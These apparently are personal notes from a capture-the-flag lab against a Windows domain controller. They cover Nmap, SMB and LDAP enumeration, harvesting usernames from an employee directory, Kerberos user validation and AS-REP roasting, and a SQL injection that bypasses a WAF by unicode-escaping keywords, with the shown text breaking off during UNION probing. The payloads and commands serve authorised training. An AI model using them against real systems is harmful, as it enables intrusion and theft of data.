Start: 2026-11-09 16:40

IP:
```IP
10.129.95.200
```
---
ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.95.200 -oA network/nmap_ports
```



DNS, HTTP, Kerberos, RPC, SMB, LDAP, MSSQL, WinRM ... -> Active Directory Domain Controller 

service

```
sudo nmap -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,3389,5985,9389,47001,49664,49665,49666,49668,49671,49674,49675,49678,49687,49698,49706 -sCV -Pn -n -vv --min-rate=5000 10.129.95.200 -oA network/nmap_service
```



Web server: Microsoft IIS httpd 10.0
Domain: `MEGACORP.LOCAL`



OS: Windows Server 2016 Standard 14393 /  6.3
Hostname: `MULTIMASTER`
FQDN: `MULTIMASTER.MEGACORP.LOCAL`
SMB message signing required (no relay in an hypothetical network)
Offsync with DC (for kerberos moves need to sync)

UDP scan

```
sudo nmap -sU -p53,88,123,389,64738 -Pn -n -vv --min-rate=5000 10.129.95.200 -oA network/nmap_ports_UDP
```



DNS, Kerberos, LDAP open via UDP as well. 
123 NTP - (Network Time Protocol)
64738 murmur - "Murmur in the Trees", port forwarding (https://portlookup.com/a-murmur-in-the-trees/)

Add IP - FQDN, DN, Hostname to `/etc/hosts`



```
nxc smb multimaster -u 'guest' -p ''
```



guest account dissabled

```
nxc smb multimaster -u '' -p ''
```



Null auth successful

Enumerating shares

```
nxc smb multimaster -u '' -p '' --shares
```

`Error enumerating shares: STATUS_ACCESS_DENIED`


HTTP 80

Browsing: http://multimaster.megacorp.local
`http://multimaster.megacorp.local` < = > `http://10.129.95.200`


MegaCorp Employee Hub

`/app` -> Search field to "find colleague"

`/login` -> Login

Technologies



VHost fuzzing

```
ffuf -w /opt/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://10.129.95.200 -H "Host: FUZZ.MEGACORP.LOCAL" -fw 73
```

No result

```
ffuf -u http://multimaster.megacorp.local/#/FUZZ -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -fw 73
```

All responses are 403, going back to web site same result, forbidden, may get blocked for bruteforcing requests sent



After 7 invalid requests seem to get blocked. After some minutes I can get back to the website

LDAP

```
nxc ldap multimaster -u '' -p ''
```



No message signing, no channel binding, TLS cert (possible LDAP relay in an hypothetical network, for example via IPv6 poissoning)

MSSQL no response (unauthenticated)


Back to HTTP

On the colleague finder, clicking on search with blank input, it shows what it seems all entries, disclosing 17 potential domain users



```
Sarina Bauer
Junior Developer
sbauer@megacorp.htb

Octavia Kent
Senior Consultant
okent@megacorp.htb

Christian Kane
Assistant Manager
ckane@megacorp.htb

Kimberly Page
Financial Analyst
kpage@megacorp.htb

Shayna Stafford
HR Manager
shayna@megacorp.htb

James Houston
QA Lead
james@megacorp.htb

Connor York
Web Developer
cyork@megacorp.htb

Reya Martin
Tech Support
rmartin@megacorp.htb

Zac Curtis
Junior Analyst
zac@magacorp.htb

Jorden Mclean
Full-Stack Developer
jorden@megacorp.htb

Alyx Walters
Automation Engineer
alyx@megacorp.htb

Ian Lee
Internal Auditor
ilee@megacorp.htb

Nikola Bourne
Head of Accounts
nbourne@megacorp.htb

Zachery Powers
Credit Analyst
zpowers@megacorp.htb

Alessandro Dominguez
Senior Web Developer
aldom@megacorp.htb

MinatoTW
CEO
minato@megacorp.htb

egre55
CEO
egre55@megacorp.htb
```

Save to file (`x.txt`) and convert to usernames only list

```
cat x.txt | grep "@" | cut -d@ -f1 > users.txt
```


Validating user list via kerberos

For Kerberos, I find it better to use the hardware host rather than Kali VM. I use Ubuntu, to sync with target KDC, first disable "Automatic Date & Time" in Settings > System



Disable it, now sync with KDC

```
sudo ntpdate 10.129.95.200
```



Validate users with kerbrute

```
~/go/bin/kerbrute userenum -vv -d MEGACORP.LOCAL --dc 10.129.95.200 users.txt
```



3 users are not valid, `shayna`, `minato`, `egre5` (I just duplicate the users.txt file to valid_users.txt and erase those 3, having now 14 valid domain users)

Checking users with No-Preauth set for ASREP roasting

```
impacket-GetNPUsers MEGACORP.LOCAL/ -usersfile valid_users.txt -dc-ip multimaster -format hashcat
```

No user with UF_DONT_REQUIRE_PREAUTH set

Stop: 18:35

Start: 19:20

Opening BurpSuite and intercepting the request that disclosed the domain users



`/api/getColleagues`



Certain characters are filtered (can also be seen browsing, in GUI error of invalid name), returning a 403 Forbidden

Using Turbo intruder extension to discover valid and invalid characters

Special characters

```
~!@#$%^&*()-_+={}][|\`,./?;:'"<>
```

Edited default turbo intruder script

```python
import time

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False,
                           engine=Engine.THREADED)

    for char in '~!@#$%^&*()-_+={}][|\`,./?;:<>':
        engine.queue(target.req, char)
        time.sleep(0.5)   # half a second between requests
        
def handleResponse(req, interesting):
        table.add(req)
```

`concurrentConnections=1` and `requestsPerConnection=1` -> One request at a time

`time.sleep(0.5)` -> Wait half a second between requests to avoid WAF blocking

Add `%s` marker for payload



Run



Blocked characters (403): `#`, `>`
Valid characters:
```
~!@$%^&*()-_+={}][|\`,./?;:'"<
```

`\` characters causes 500, server error

Probing for SQLi using sqlmap

Save valid request to a file (Right click request > Save item) (example name: `POST_api-getColleagues`)

```
sqlmap -r web/POST_api-getColleagues --dbms mssql --batch --level 5 --risk 3 --delay 0.5
```

Dont forget to add delay

No result

```
[12:04:20] [CRITICAL] all tested parameters do not appear to be injectable
[12:04:20] [WARNING] HTTP error codes detected during run:
403 (Forbidden) - 170 times
```

Stop: 20:15

Start: 10 10:30

---
Hint: https://www.youtube.com/watch?v=iwR746pfTEc min 24 - Use tamper parameter selecting Unicode escape characters (it seems unicode encoded characters bypass filters)
Manual 28:30

---

```
sqlmap -r web/POST_api-getColleagues --dbms mssql --batch --level 5 --risk 3 --delay 0.5 --tamper=charunicodeescape
```

No result, doesnt identify injection in JSON name parameter

Manually. Using unicode escape

Converter: https://www.rapidtables.com/code/text/unicode-characters.html

| Plain text | Unicode Escape | Unicode Escape (no 00) |
| ---------- | -------------- | ---------------------- |
| `'`        | `\u0027`       | `\u27`                 |
| `-`        | `\u002d`       | `\u2d`                 |



With 00 -> 200 OK, null



Without 00 -> 500 Server error

```
' order by 1-- -
```

```
\u0027 order by 1\u002d\u002d \u002d
```

The word `order` seems to be blocked -> 403

```
\u0027 \u004f\u0052\u0044\u0045\u0052 by 1\u002d\u002d \u002d
```

order = `\u004f\u0052\u0044\u0045\u0052`

Now bypassed



Order by 1,2,3,4,5 -> 200 OK and results



Order by 6 -> 200 OK, null.
Ordering by 7,8,9,... gives the same null response

 The query seems to calls 5 columns, makes sense since the original query responds with 5 parameters for each row.

Trying UNION

It seems `union` and `select` words are also blocked -> 403

union = `\u0055\u004e\u0049\u004f\u004e`
select = `\u0053\u0045\u004c\u0045\u0043\u0054`

```
\u0027 \u0055\u004e\u0049\u004f\u004e \u0053\u0045\u004c\u0045\u0043\u0054 null, null, null, null, null, null\u002d\u002d \u002d
```

Same 200 OK, null response

